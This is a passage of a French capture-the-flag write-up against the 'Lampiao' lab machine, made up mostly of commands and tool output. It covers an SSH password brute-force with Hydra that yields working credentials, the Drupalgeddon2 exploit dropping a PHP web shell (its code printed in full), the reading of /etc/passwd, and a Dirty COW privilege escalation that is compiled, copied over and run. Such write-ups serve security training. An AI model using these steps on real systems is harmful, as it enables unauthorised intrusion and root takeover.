Drupal Module Sections 5.x-1.2/6.x-1.2 - HTML Injection                                                                                            | exploits/php/webapps/33410.txt
Drupal avatar_uploader v7.x-1.0-beta8 - Arbitrary File Disclosure                                                                                  | exploits/php/webapps/44501.txt
--------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```


Je m'interresse pour commencer à :

````
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)                                | exploits/php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)                             | exploits/php/webapps/44542.txt
````

Mais après relecture :

Le critère "Authenticated" n'est pas satisfait ....


## Un résultat sous hydra apparait

```
hydra -L users.txt -P dict.txt -t 4 192.168.112.210 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-01-17 14:46:46
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 3052 login tries (l:4/p:763), ~763 tries per task
[DATA] attacking ssh://192.168.112.210:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 3008 to do in 01:09h, 4 active
[STATUS] 33.67 tries/min, 101 tries in 00:03h, 2951 to do in 01:28h, 4 active
[22][ssh] host: 192.168.112.210   login: tiago   password: Virgulino
[STATUS] 123.86 tries/min, 867 tries in 00:07h, 2185 to do in 00:18h, 4 active
```

**login: tiago   password: Virgulino**


Ce résultat permet de s'authentifier 

```
ssh tiago@192.168.112.210
The authenticity of host '192.168.112.210 (192.168.112.210)' can't be established.
ECDSA key fingerprint is SHA256:64C0fMfgIRp/7K8EpiEiirq/SrPByxrzXzn7bLIqxbU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.112.210' (ECDSA) to the list of known hosts.
tiago@192.168.112.210's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Fri Jan 17 08:13:25 BRST 2020

  System load:  0.0               Processes:           179
  Usage of /:   7.5% of 19.07GB   Users logged in:     0
  Memory usage: 30%               IP address for eth0: 192.168.112.210
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Fri Apr 20 14:40:55 2018 from 192.168.108.1
```


# Recherche d'un exploit

Je poursuis avec les exploits :

**Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution                     | exploits/php/webapps/44449.rb**


```
➜ 15:02 root@kali /root ruby /usr/share/exploitdb/exploits/php/webapps/44449.rb
ruby: warning: shebang line ending with \r may cause problems
Traceback (most recent call last):
        2: from /usr/share/exploitdb/exploits/php/webapps/44449.rb:16:in `<main>'
        1: from /usr/lib/ruby/2.5.0/rubygems/core_ext/kernel_require.rb:59:in `require'
/usr/lib/ruby/2.5.0/rubygems/core_ext/kernel_require.rb:59:in `require': cannot load such file -- highline/import (LoadError)
```

Installation de la librairie manquante :

```
➜ 15:02 root@kali /root  gem install highline
Fetching: highline-2.0.3.gem (100%)
Successfully installed highline-2.0.3
Parsing documentation for highline-2.0.3
Installing ri documentation for highline-2.0.3
Done installing documentation for highline after 1 seconds
1 gem installed
```

Le programme se lance 

```
➜ 15:03 root@kali /root ruby /usr/share/exploitdb/exploits/php/webapps/44449.rb
ruby: warning: shebang line ending with \r may cause problems
Usage: ruby drupalggedon2.rb <target> [--authentication] [--verbose]
Example for target that does not require authentication:
       ruby drupalgeddon2.rb https://example.com
Example for target that does require authentication:
       ruby drupalgeddon2.rb https://example.com --authentication
```


Execution avec les bons paramètres on obtient un shell:

```
➜ 15:05 root@kali /root ruby /usr/share/exploitdb/exploits/php/webapps/44449.rb http://192.168.112.210:1898 
ruby: warning: shebang line ending with \r may cause problems
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://192.168.112.210:1898/
--------------------------------------------------------------------------------
[+] Found  : http://192.168.112.210:1898/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo EDOMECJO
[+] Result : EDOMECJO
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://192.168.112.210:1898/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://192.168.112.210:1898/shell.php' -d 'c=hostname'
```

Le reverse shell obtenu a les droits www-data

```
lampiao>> whoami
www-data
```

On confirme la présence du compte tiago précédemment trouvé :

```
lampiao>> cat /etc/passwd

tiago:x:1000:1000:tiago,,,:/home/tiago:/bin/bash
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:106:MySQL Server,,,:/nonexistent
```

Vérification de la version du système :

```
lampiao>> cat /etc/lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.5 LTS"
```

```
lampiao>> uname -a
Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
```

# Recherche d'une vulnérabilité sur le noyau

```
➜ 15:19 root@kali /opt/linux-exploit-suggester-2 (master) ✔ ./linux-exploit-suggester-2.pl -k 4.4     

  #############################
    Linux Exploit Suggester 2
  #############################

  Local Kernel: 4.4
  Searching 72 exploits...

  Possible Exploits
  [1] af_packet (4.4.0)
      CVE-2016-8655
      Source: http://www.exploit-db.com/exploits/40871
  [2] dirty_cow (4.4.0)
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [3] exploit_x (4.4.0)
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [4] get_rekt (4.4.0)
      CVE-2017-16695
      Source: http://www.exploit-db.com/exploits/45010
```

# Téléchargement des exploits

```
➜ 15:22 root@kali /opt/linux-exploit-suggester-2 (master) ✔ ./linux-exploit-suggester-2.pl -k 4.4 -d

  #############################
    Linux Exploit Suggester 2
  #############################

  Local Kernel: 4.4
  Searching 72 exploits...

  Possible Exploits
  [1] af_packet (4.4.0)
      CVE-2016-8655
      Source: http://www.exploit-db.com/exploits/40871
  [2] dirty_cow (4.4.0)
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [3] exploit_x (4.4.0)
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [4] get_rekt (4.4.0)
      CVE-2017-16695
      Source: http://www.exploit-db.com/exploits/45010

  Exploit Download
  (Download all: 'a' / Individually: '2,4,5' / Exit: ^c)
  Select exploits to download: a

  Downloading https://www.exploit-db.com/raw/40871 -> exploit_af_packet
  Downloading https://www.exploit-db.com/raw/40616 -> exploit_dirty_cow
  Downloading https://www.exploit-db.com/raw/45697 -> exploit_exploit_x
  Downloading https://www.exploit-db.com/raw/45010 -> exploit_get_rekt
```

## Compilation (sous x64)

```
➜ 15:25 root@kali /opt/linux-exploit-suggester-2 (master) ✗ gcc exploit_dirty_cow.c -o exploit_dirty_cow  -pthread
exploit_dirty_cow.c: In function ‘procselfmemThread’:
exploit_dirty_cow.c:99:17: warning: passing argument 2 of ‘lseek’ makes integer from pointer without a cast [-Wint-conversion]
   99 |         lseek(f,map,SEEK_SET);
      |                 ^~~
      |                 |
      |                 void *
In file included from exploit_dirty_cow.c:28:
/usr/include/unistd.h:334:41: note: expected ‘__off_t’ {aka ‘long int’} but argument is of type ‘void *’
  334 | extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
      |                                 ~~~~~~~~^~~~~~~~
exploit_dirty_cow.c: In function ‘main’:
exploit_dirty_cow.c:136:5: warning: implicit declaration of function ‘asprintf’; did you mean ‘vsprintf’? [-Wimplicit-function-declaration]
  136 |     asprintf(&backup, "cp %s /tmp/bak", suid_binary);
      |     ^~~~~~~~
      |     vsprintf
exploit_dirty_cow.c:140:5: warning: implicit declaration of function ‘fstat’ [-Wimplicit-function-declaration]
  140 |     fstat(f,&st);
      |     ^~~~~
```

## Tentative de forcer la cross compilation pour générer un exe x86

```
➜ 15:32 root@kali /opt/linux-exploit-suggester-2 (master) ✗ gcc -m32  exploit_dirty_cow.c -o exploit_dirty_cow  -pthread
In file included from exploit_dirty_cow.c:22:
/usr/include/stdio.h:27:10: fatal error: bits/libc-header-start.h: No such file or directory
   27 | #include <bits/libc-header-start.h>
      |          ^~~~~~~~~~~~~~~~~~~~~~~~~~
compilation terminated.
```

# Installation d'une vieille version d'Ubuntu (version i386)

## Problème le source.list est obsolète ...

Mise à jour 

```
sudo sed -i -re 's/([a-z]{2}\.)?archive.ubuntu.com|security.ubuntu.com/old-releases.ubuntu.com/g' /etc/apt/sources.list
sudo apt update
```

## Installation du nécéssaire de compilation

```
root@ubuntu:/home/eric# apt install build-essential --no-install-recommends
```

## Compilation et execution sur la cible

```
eric@ubuntu:/tmp$ gcc exploit_dirty_cow.c -pthread -o dirty
exploit_dirty_cow.c: In function ‘procselfmemThread’:
exploit_dirty_cow.c:99:17: warning: passing argument 2 of ‘lseek’ makes integer from pointer without a cast [-Wint-conversion]
         lseek(f,map,SEEK_SET);
                 ^
In file included from exploit_dirty_cow.c:28:0:
/usr/include/unistd.h:334:16: note: expected ‘__off_t {aka long int}’ but argument is of type ‘void *’
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                ^
exploit_dirty_cow.c: In function ‘main’:
exploit_dirty_cow.c:136:5: warning: implicit declaration of function ‘asprintf’ [-Wimplicit-function-declaration]
     asprintf(&backup, "cp %s /tmp/bak", suid_binary);
     ^
exploit_dirty_cow.c:140:5: warning: implicit declaration of function ‘fstat’ [-Wimplicit-function-declaration]
     fstat(f,&st);
     ^
exploit_dirty_cow.c:142:12: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘__off_t {aka long int}’ [-Wformat=]
     printf("Size of binary: %d\n", st.st_size);
            ^
```

```
eric@ubuntu:/tmp$ scp dirty 192.168.112.210:/tmp
The authenticity of host '192.168.112.210 (192.168.112.210)' can't be established.
ECDSA key fingerprint is SHA256:64C0fMfgIRp/7K8EpiEiirq/SrPByxrzXzn7bLIqxbU.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.112.210' (ECDSA) to the list of known hosts.
eric@192.168.112.210's password: 
eric@ubuntu:/tmp$ scp dirty tiago@192.168.112.210:/tmp
tiago@192.168.112.210's password: 
dirty                                                                                                                      100%   12KB  12.5KB/s   00:00    
eric@ubuntu:/tmp$ ssh tiago@192.168.112.210
tiago@192.168.112.210's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Fri Jan 17 09:40:26 BRST 2020

  System load:  0.0               Processes:           174
  Usage of /:   7.5% of 19.07GB   Users logged in:     1
  Memory usage: 30%               IP address for eth0: 192.168.112.210
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Fri Jan 17 08:21:20 2020 from 192.168.112.134
tiago@lampiao:~$ /tmp/dirty 
DirtyCow root privilege escalation
Backing up /usr/bin/passwd.. to /tmp/bak
Size of binary: 45420
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd is overwritten
Popping root shell.
Don't forget to restore /tmp/bak
/usr/bin/passwd: 1: /usr/bin/passwd: ELF: not found
/usr/bin/passwd: 1: /usr/bin/passwd: X�H�/bin/shSH��h-cH��R�: not found
/usr/bin/passwd: 2: /usr/bin/passwd: Syntax error: ")" unexpected
```


